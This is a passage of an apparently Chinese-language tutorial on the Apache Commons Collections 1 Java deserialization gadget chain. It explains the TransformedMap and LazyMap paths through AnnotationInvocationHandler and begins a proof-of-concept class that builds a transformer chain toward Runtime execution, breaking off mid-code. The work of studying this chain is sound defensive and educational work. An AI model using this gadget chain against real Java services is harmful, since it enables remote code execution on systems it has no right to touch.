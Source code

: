 ```java  
    public static Object unserialize(String filename) throws Exception{    
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));    
        Object obj = ois.readObject();    
        return obj;    
    
    }    
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142111136.png)
整个调用栈如下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151320208.png)
**注**  
这里为什么要用`Target`  
`Object o = AnnotationInvocationHandlerConstructor.newInstance(Target.class,transformedMap);`  
因为`Target`中有值是`value`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142103316.png)
这里的`getKey()`获取的就是，上面`map.put()`放入的`key`值  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142108071.png)
`map.put("value","value");`  
`key`放入`value`，正好能取出`Target`中的值，所以就绕过了`if`条件  
  
## 另一条  
在上面选择任意类执行`transform`方法的时候，选择了`TransformedMap`  
这次选择另一个类`LazyMap`中的`get()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151446822.png)
再看一下哪里调用了`get()`方法，恰好在`AnnotationInocationHandler`类中的`invoke()`方法中调用了`get()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151448743.png)
而恰好`memberValues`也是可控的，那如何调用到`invoke()`方法呢？  
这里需要一个新的知识点，动态代理，将`AnnoationInvocationHandler`动态代理，执行任意方法，即可调用到`invoke`方法，但是根据 invoke 中的`if`条件，执行的任意方法必须是无参的，恰好在`AnnotationInvocationHandler`类中的`readObject()`方法中，有这样的方法存在  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/20240115145104.png)
于是根据上面的`poc`修改一下  
```java  
package org.example.CommonsCollections;    
    
import org.apache.commons.collections.Transformer;    
import org.apache.commons.collections.functors.ChainedTransformer;    
import org.apache.commons.collections.functors.ConstantTransformer;    
import org.apache.commons.collections.functors.InvokerTransformer;    
import org.apache.commons.collections.map.LazyMap;    
import org.apache.commons.collections.map.TransformedMap;    
    
import java.io.*;    
import java.lang.annotation.Target;    
import java.lang.reflect.Constructor;    
import java.lang.reflect.InvocationHandler;    
import java.lang.reflect.Proxy;    
import java.util.HashMap;    
import java.util.Map;    
    
public class CommonsCollections1 {    
    public static void main(String[] args) throws Exception{    
    
        Transformer[] transformers = new Transformer[]{    
                new ConstantTransformer(Runtime.class),    
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),    
```